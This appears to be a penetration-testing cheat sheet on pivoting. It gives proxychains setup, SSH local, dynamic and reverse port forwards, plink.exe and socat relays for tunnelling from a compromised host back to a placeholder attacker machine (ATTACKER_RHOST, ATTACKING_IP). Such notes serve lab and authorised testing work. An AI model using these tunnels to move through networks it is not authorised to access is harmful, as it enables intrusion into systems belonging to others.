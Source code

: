 # Pivoting

## There are 2 types of pivoting

1. Port Forwarding (only one port)
2. Tunnelling and Proxying (all ports)

## proxychains

Works by prepending the command `proxychains` before other commands.

Proxychains configuration file: `/etc/proxychains.conf` (but proxychains will look into working direcotry first)

```
cp /etc/proxychains.conf .
```

## SSH Tunnelling / Port Forwarding

```
ssh -L <COMPROMISED_LPORT>:<TARGET_RHOST>:<TARGET_RPORT> user@<COMPROMISED_LHOST> -fN
```

```
ssh -D <COMPROMISED_LPORT> <USER>@<COMPROMISED_LHOST> -fN
```

```
# on your machine
ssh-keygen
vim ~/.ssh/authorized_keys
command="echo 'This account can only be used for port forwarding'",no-agent-forwarding,no-x11-forwarding,no-pty <ID_RSA.PUB>

# on target machine
sudo systemctl status ssh # sudo systemctl start ssh
ssh -R <COMPROMISED_LPORT>:<TARGET_RHOST>:<TARGET_RPORT> <USERNAME>@<ATTACKER_RHOST> -i <KEYFILE> -fN
# or ssh -R <COMPROMISED_LPORT> <USERNAME>@<ATTACKER_RHOST> -i <KEYFILE> -fN
```

## plink.exe

[https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html](https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html)

```
cmd.exe /c echo y | .\plink.exe -R LOCAL_PORT:TARGET_IP:TARGET_PORT USERNAME@ATTACKING_IP -i KEYFILE -N
```

Note that any keys generated by `ssh-keygen` will not work properly here. You will need to convert them using the `puttygen` tool, which can be installed on Kali using `sudo apt install putty-tools`. After downloading the tool, conversion can be done with: `puttygen KEYFILE -o OUTPUT_KEY.ppk`
Substituting in a valid file for the keyfile, and adding in the output file.

## socat

[linux](https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat)
[windows](https://sourceforge.net/projects/unix-utils/files/socat/1.7.3.2/socat-1.7.3.2-1-x86_64.zip/download)

```
./socat tcp-l:8000 tcp:ATTACKING_IP:443 &
./socat tcp-l:<COMPROMISED_LPORT>,fork,reuseaddr tcp:<TARGET_RHOST>:<TARGET_RPORT> &
```
